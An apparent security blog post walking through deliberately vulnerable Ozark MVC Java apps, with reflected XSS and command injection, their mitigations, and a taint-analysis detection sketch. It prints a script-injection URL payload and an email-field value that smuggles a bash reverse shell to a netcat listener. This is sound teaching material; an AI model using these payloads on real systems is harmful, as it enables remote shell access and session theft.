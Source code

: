 ```yaml
---
title: 'Cross Site Scripting (XSS) and Command Injection Tutorial in Ozark'
date: 2020-09-30
permalink: /posts/2012/08/blog-post-1/
tags:
  - cool posts
  - category1
  - category2
---
```


- ![#f03c15](https://via.placeholder.com/15/f03c15/000000?text=+) `#f03c15`

- #### *So stay tune for a precise solution using theory of strings soon...*

**Problem Statement:**
======

The challenge (posted by [Alexander Hoole](https://www.zoominfo.com/p/Alexander-Hoole/-980178248)) is to code up an application that exhibits few (potential) weaknesses feasible in the Ozark framework. 

<a href='https://github.com/farif/Ozark-mvc-j2ee'>Source Code</a>

 
**\[Research & Threat Modeling\]:**

Model-View-Controller (MVC) is a framework/design-pattern for building
web applications. It introduces a paradigm of clean design by separating
concerns about modeling, presentation, and business logic in an
application.

MVC 1.0 (ref: JSR 371) is a property action-oriented framework, as
compared to the (predecessor) UI component-oriented MVC. It provides a
lot of flexibility to developers through features like: doesn't hide
HTTP request and response mechanism, didn't dictate or constraint the
use of HTML/CSS/JS and the actions-events are directly passed on to the
backend. Unfortunately, these features comes at the price of the
security by exposing too much attack surface. Even though Ozark API
\[Chapter 4 (ref: JSR 371)\] does provide few mitigatations functions
and/or controls but mostly the security aspect is overlooked. For
example, CSRF protection via tokens and XSS encoder to escape malicious
JS but this support isn't enough to fend off all security threats. Thus
required a comprehensive security assessment in every aspect of the
software development life cycle.

The reference implementation for MVC 1.0 is called Ozark \[2\]. A quick
round of threat modeling reveals that the natively developed application
can be easily compromised. Because the framework didn\'t give much
consideration to the security aspects and exposes too much attack
surface. We have developed an application to demonstrate that reflects
on critical weakness, one that impacts the client-side while the other
results in a complete server-side compromise (consult Fig 1).

> ![](http://farif.github.io/files/blogs/ozark/ozark_app.png)
>
> Fig 1: Threat Model for Ozark App.

The two exposed weakness are:

**\[Vulnerable Application 1\] Cross-Site Scripting (XSS): Reflected**

It is an application flaw that exploits victims trust in the
application. The application accepting non-trusted data (user-provided
inputs) and returning it to the browser without validation or
sanitization that may lead to run malicious scripts in the victim\'s
browser resulting to a compromise via hijacked sessions, stolen cookie,
invalid redirects, etc. The mitigation is to escape or filter out all
the special characters in the reply and help to avoid any reflected
script back to the victim.

**\[Vulnerable Application 2\] Command Injection:**

It is an application flaw that exploits application trust in the user.
The adversary goal is to execute arbitrary commands using controls
(forms, cookies, HTTP headers, etc.) provided with the vulnerable
application. The application passes unsafe user-supplied data to the
server-side and without proper validation it gets executed with a
handsome privilege. The prevention or mitigation for command injection
attacks is to employ rigrious input validation.

**\[Test Applications\]**

**Test Vulnerable Application 1:**

It is a simple greeting application, provided with a user name returns a
greeting message. The attacker can able to execute a malicious JS on the
victims-machine through malformed input appended in the input parameter
to the URL.

![thumbnail](http://farif.github.io/files/blogs/ozark/fig_1.png)

**Vulnerability:** Reflected Cross-site Scription (XSS).

**Exploit:**

ozark-vuln-app/ozark-vuln/XSS?name=Alex+%3Cscript%3Ealert(%22Bingo%22)%3C/script%3E

![](http://farif.github.io/files/blogs/ozark/fig_2.png)

**NOTE:** If the victim is using Google Chrome, it blocks the execute
and return an error page with the exception:\
ERR\_BLOCKED\_BY\_XSS\_AUDITOR\
This check can be bypassed but we didn't investigated it further.

**Test Vulnerable Application 2:**

It is the same application that sends an email to the user-provided
email address. An attacker pwned the server machine (even the one behind
the firewall or in a protected network) by simply executing a reverse
shell.

![](http://farif.github.io/files/blogs/ozark/fig_3.png)

**Vulnerability:** Command Injection

**Exploit:**\
Deploying a reverse shell.

Listening on attacker's machine:

\#sudo nc -l 5555

Fill in the 'E-Mail:' box:

test\@hotmail.com \| bash -i \>& /dev/tcp/127.0.0.1/5555 0\>&1

![](http://farif.github.io/files/blogs/ozark/fig_4.png)

![](http://farif.github.io/files/blogs/ozark/fig_5.png)

![](http://farif.github.io/files/blogs/ozark/fig_6.png)

**Test Safe Application 1:**

This the counterpart of previous vulnerable application. The security
checks are implemented to stop cross-site scripting attack.

![](http://farif.github.io/files/blogs/ozark/fig_7.png)

**Mitigation:**

The mitigation is to escape/encode the special character's in the
provided URL before sending it back.

No reflected XSS attack is possible in it.

![](http://farif.github.io/files/blogs/ozark/fig_8.png)

**Test Safe Application 2:**

This the counterpart of the previous vulnerable application. The
security checks are implemented to stop command injection attack.

![](http://farif.github.io/files/blogs/ozark/fig_9.png)

**Mitigation:**

The fix is to validate the email address contents before passong on the
program that execute mail client command.

Fail to execute the injected command.

![](http://farif.github.io/files/blogs/ozark/fig_10.png)

**Disclaimer:** The code snippets of 'Michael Scharhag' \[4\] has been
used to develope above applications.

**\[Detection\]**

Due to a large volume of web applications, the need for automated
analysis tools is on the rise. For detection, we simply employ taint
analysis to discover the vulnerable code in the aforementioned
application. The goal of our analysis is to determine whether it is
possible that user-provided data reaches sensitive a sink without being
properly sanitized. More precisely, through annotations, we collect data
orignated from untrusted source/user inputs (taint seeds). These
annotations are provided with the classes (\@BeanParam, \@QueryParam).

Using a tainted policy (similar to the one suggested in \[5,6\]) that
propagates the tainted values in the program execution paths and then
checks the taint status at a critical locations (taint sinks). The taint
sinks in our case are the path to the function-calls that execution
system command and/or alter the model state which is returned to the
user without going through any validation check.

**Algorithm** (algorithm pseudocode):

Input: Java Classes with annotated functions.

ouput: Safe or Unsafe Program.

prog\_ast = antlr\_parser(input\_program)

prog\_cfg = build\_CFG(prog\_ast) (Control Flow Graph)

safe\_flag = apply\_tainted\_policy(prog\_cfg)

Return safe\_flag;

**End**;

The proposed method is a little bit imprecise (not sound and definitely
incomplete). It might fail to detect the issues and/ or raise false
alarms due to under-tainting or over-tainting. 

<span style="color:red">*So stay tune for a precise solution using theory of strings soon.*</span>

**References:**

\[1\] MVC 1.0 - Model-View-Conrtoller Specification, Ivar Grimstad,
Christain Kaltepoth, v1.0, September 2018
([[https://jcp.org/en/jsr/detail?id=371]{.underline}](https://jcp.org/en/jsr/detail?id=371))

\[2\] Ozark - Reference Implementation for MVC 1.0 \[Oracle Website\]

\[3\] Vulncat.fortify.com/en

\[4\]
https://github.com/mscharhag/java-ee-8-mvc/tree/master/getting-started

\[5\] Schwartz, Edward J., Thanassis Avgerinos, and David Brumley. \"All
you ever wanted to know about dynamic taint analysis and forward
symbolic execution (but might have been afraid to ask).\" 2010 IEEE
symposium on Security and privacy. IEEE, 2010.

\[6\] Vogt, Philipp, et al. \"Cross Site Scripting Prevention with
Dynamic Data Tainting and Static Analysis.\" NDSS. Vol. 2007. 2007.